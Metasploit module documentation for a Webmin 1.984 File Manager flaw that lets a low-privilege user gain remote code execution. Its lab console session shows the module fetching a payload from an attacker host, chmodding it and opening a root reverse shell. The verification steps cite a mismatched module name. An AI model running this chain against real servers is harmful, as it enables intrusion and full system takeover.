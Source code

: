 ## Vulnerable Application

In Webmin v1.984, affecting File Manager module, any authenticated low privilege user without access rights to the
File Manager module could interact with file manager functionalities such as download file from remote URL and change
file permission (chmod). It is possible to achieve Remote Code Execution via a crafted .cgi file by chaining those
functionalities in the file manager.

### Setup, on Ubuntu 20.04

```
wget https://download.webmin.com/devel/deb/webmin_1.984_all.deb
sudo dpkg -i  webmin_1.984_all.deb
```

Webmin should now be installed. The credentials for the web UI will be the same as the
user that installed Webmin

## Options
### USERNAME
A specific username to authenticate as
### PASSWORD
A specific password to authenticate with

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a session as the `root` user.

## Scenarios
### Webmin 1.984, on Ubuntu 20.04

```
msf6 > exploit/linux/http/webmin_file_manager_rce
[*] Using exploit/linux/http/webmin_file_manager_rce
msf6 exploit(linux/http/webmin_file_manager_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/webmin_file_manager_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/webmin_file_manager_rce) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf6 exploit(linux/http/webmin_file_manager_rce) > set username msfuser
username => msfuser
msf6 exploit(linux/http/webmin_file_manager_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://172.16.199.1:8080/ihpSHaj
[*] Attempting to authenticate with Webmin
[+] Authentication successful
[*] Downloading remote url
[*] Fetching payload from HTTP server
[*] Request 'GET /ihpSHaj.cgi'
[*] Sending payload ...
[*] Finished downloading remote urlv
[*] Modifying the permissions of the uploaded payload to 0755
[*] Command shell session 8 opened (172.16.199.1:4444 -> 172.16.199.132:46066) at 2022-10-24 18:18:37 -0400
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
